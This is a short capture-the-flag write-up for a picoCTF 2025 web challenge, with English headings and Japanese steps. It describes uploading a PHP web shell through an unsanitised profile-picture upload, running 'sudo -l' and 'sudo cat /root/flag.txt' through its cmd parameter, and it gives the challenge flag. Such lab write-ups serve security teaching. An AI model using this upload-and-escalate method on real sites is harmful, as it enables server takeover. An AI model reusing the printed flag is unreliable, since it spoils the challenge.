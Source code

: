 # n0s4n1ty 1

- **CTF:** picoCTF 2025
- **Category:** Web Exploitation
- **Difficulty:** Easy

### Description

A developer has added profile picture upload functionality to a website.
However, the implementation is flawed, and it presents an opportunity for you.
Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

### Author
PRINCE NIYONSHUTI N.

### hint
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, `check sudo -l`

### Write-up

1.  **`shell.php`** をサーバーに **アップロードします**。

2.  アップロードしたWebシェルに `?cmd=sudo -l` を送信し、`www-data`ユーザーの`sudo`権限を **確認します**。

    ```shell
    Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    User www-data may run the following commands on challenge:
        (ALL) NOPASSWD: ALL
    ```
    > **[重要]**
    > これにより、`www-data`ユーザーが **パスワードなしで全てのコマンド (`ALL`) を `sudo` 実行できる** ことが判明しました。これは攻撃の決定的な足がかりとなります。

3.  上記の権限を使い、`?cmd=sudo cat /root/flag.txt` を実行して、最終目的である***フラグを入手します***。

### Flag
`FLAG : picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`
